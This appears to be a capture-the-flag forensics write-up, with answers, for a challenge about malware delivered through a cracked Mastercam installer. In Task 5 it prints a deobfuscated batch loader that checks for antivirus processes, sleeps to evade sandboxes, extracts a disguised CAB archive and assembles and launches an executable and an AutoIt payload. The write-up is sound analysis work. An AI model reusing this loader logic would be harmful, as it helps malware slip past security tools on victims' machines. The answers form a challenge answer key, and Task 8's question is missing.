






# CAMouflage
#### Categories: DFIR <br> Difficulty: Easy

## Sherlock Scenario
A newly launched campaign has been detected targeting multiple users utilizing cracked applications. We received an alert indicating unusual behavior from one of our user’s laptops and performed an initial triage. Your task is to conduct a deep dive investigation to determine the root cause and extent of the incident.

## Attachments
- `CAMouflage.zip`

## Solve
After downloading and extracting the attachment, I obtained some artifact copy logs and a folder named `C`.

<br>

### Task 1
#### Question:
Based on forensic artifacts, at what precise timestamp did the user first execute the Cracked App installer?

#### Answer:
I identified the cracked application by analyzing the Microsoft Edge browser history located at `C\Users\Administrator\AppData\Local\Microsoft\Edge\User Data\Default\History`, which reveals that the user downloaded a cracked version of Mastercam.


Prefetch artifacts indicate that the cracked installer was executed twice, with the first execution timestamp recorded at `2025-06-21 18:34:19`.


Answer: **2025-06-21 18:34:19**

<br>

### Task 2
#### Question:
When did the installer process terminate?

#### Answer:
To determine the termination time, I analyzed the Background Activity Moderator (BAM) entries within the `SYSTEM` registry hive at `SYSTEM: ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1403634729-3147206146-238420168-500`.


>[!Note] 
> BAM is a Windows service introduced in Windows 10 (1709) designed to manage the power consumption of background applications. When an application exits or terminates, BAM updates the corresponding value's timestamp in the registry.

Answer: **2025-06-21 18:36:52**

<br>

### Task 3
#### Question:
What was the first file dropped by the malware post-installation?

#### Answer:
Correlating the prefetch files with the initial execution timeline reveals that following installation, the malware dropped several `.wp5` files, with the first one being `Mysql.wp5`.


Answer: **Mysql.wp5**

<br>

### Task 4
#### Question:
What is the SHA-256 hash of the .cab archive extracted during execution?

#### Answer:
Running the `file` command against the `.wp5` files revealed that `Play.wp5` possesses the magic bytes of a Microsoft Cabinet (`.cab`) archive. The `.wp5` extension was applied as an obfuscation technique to disguise the archive.


Calculating the SHA-256 hash of `Play.wp5`:


Answer: **35efc15a41cf54a51703711e0b117b1899e4698bed1a4fdae638ebb7a3a190e0**

<br>

### Task 5
#### Question:
What command did the malware use to extract content files from that .cab file?

#### Answer:
Inspection of `Mysql.wp5` reveals that it is actually an obfuscated batch file. Prefetch records indicate this execution was immediately followed by an instance of `cmd.exe`.


The script content was heavily obfuscated. By utilizing a Python deobfuscation script along with manual variable resolution and stripping junk dead-code lines, the clean batch commands were revealed:
``` bash
Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=Moscow.com

Set PWFtGNjfw=

Set yIpWXmEeJiPlXYAAmcMkIlfSPB=5

tasklist | findstr /I 'opssvc wrsa' & if not errorlevel 1 ping -n 192 127.0.0.1

Set /a Wing=448887

tasklist | findstr 'bdservicehost SophosHealth AvastUI AVGUI nsWscSvc ekrn' & if not errorlevel 1 Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=AutoIt3.exe & Set PWFtGNjfw=.a3x & Set yIpWXmEeJiPlXYAAmcMkIlfSPB=300

md 448887

extrac32 /Y Play.wp5 *.*

set /p ='MZ' > 448887\Moscow.com <nul

findstr /V 'Surplus' Balls >> 448887\Moscow.com

copy /b 448887\Moscow.com + Hell + Analyze + Theology + Thanksgiving + Subsequently + Mechanisms + Dawn + Draws + Appreciated + Investors 448887\Moscow.com

cd 448887

copy /b ..\Runner.wp5 + ..\Art.wp5 + ..\Gba.wp5 + ..\Romania.wp5 + ..\Refugees.wp5 + ..\Authorization.wp5 + ..\Lock.wp5 K 

start Moscow.com K 

cd ..

choice /d n /t 5
```
The batch script performs the following actions:
- Checks for running processes matching `opssvc` (OPSWAT Client Service) and `wrsa` (Webroot SecureAnywhere). If identified, it executes `ping -n 192 127.0.0.1` against the loopback adapter to sleep for 192 seconds in order to exhaust sandbox analysis timeouts.
- Checks for active security processes including `bdservicehost`, `SophosHealth`, `AvastUI`, `AVGUI`, `nsWscSvc`, and `ekrn`. If any are detected, the payload executable is assigned to `AutoIt3.exe` while the payload extension switches to `.a3x` (compiled AutoIt format), accompanied by a 300-second sandbox evasion sleep.
- Concatenates the execution binary and the final payload script from the extracted fragments.

Answer: **extrac32 /Y Play.wp5 *.***

<br>

### Task 6
#### Question:
During execution, the malware performed AV/EDR checks. How many security product-related strings did it search for in memory or processes?

#### Answer:
The script searches for security software via `tasklist | findstr`. Specifically, the primary AV/EDR branching check evaluates 6 distinct process identifiers: `bdservicehost`, `SophosHealth`, `AvastUI`, `AVGUI`, `nsWscSvc`, and `ekrn`.

Answer: **6**

<br>

### Task 7
#### Question:
After the batch file was executed, what was the name of the process that ran?

#### Answer:
Since the default execution path in the unmonitored environment invoked `Moscow.com` directly from the decompressed payload directory:

Answer: **MOSCOW.COM**

<br>

### Task 8
#### Question:

#### Answer:

Answer: **AutoIt3.exe**

<br>

### Task 9
#### Question:
Reconstruct `K` by concate `.wp5` files and calculate hash of it.
```bash
cat Runner.wp5 Art.wp5 Gba.wp5 Romania.wp5 Refugees.wp5 Authorization.wp5 Lock.wp5 > K
sha256sum K
```

#### Answer:

Answer: **2b3d1561b9ae7fa2bd3f09dee28a327b5647a908113945cd2a943134822d18d0**

<br>

### Task 10
#### Question:
What is the C2 Domain name address contacted by the malware?

#### Answer:
Performing open-source intelligence (OSINT) by querying the extracted payload SHA-256 hash on VirusTotal revealed the associated command-and-control (C2) infrastructure shared in the community comments section.


Answer: **crowfza.xyz**